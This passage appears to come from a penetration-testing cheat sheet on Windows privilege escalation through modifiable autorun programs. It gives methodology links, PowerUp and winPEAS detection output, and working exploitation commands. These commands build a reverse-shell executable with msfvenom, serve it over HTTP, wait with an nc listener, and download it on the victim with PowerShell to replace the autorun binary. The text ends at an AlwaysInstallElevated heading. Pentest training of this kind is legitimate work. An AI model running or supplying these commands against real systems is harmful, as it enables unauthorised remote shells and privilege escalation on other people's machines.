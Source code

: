 #### Methodology to follow

```
https://guif.re/windowseop
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
```

#### Autorun

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for modifiable registry autoruns and configs...

Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\My Program
Path           : "C:\Program Files\Autorun Program\program.exe"
ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files\Autorun Program\program.exe; IdentityReference=Everyone}
```

or

```
winPEAS.exe

[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
```

#### AlwaysInstallElevated
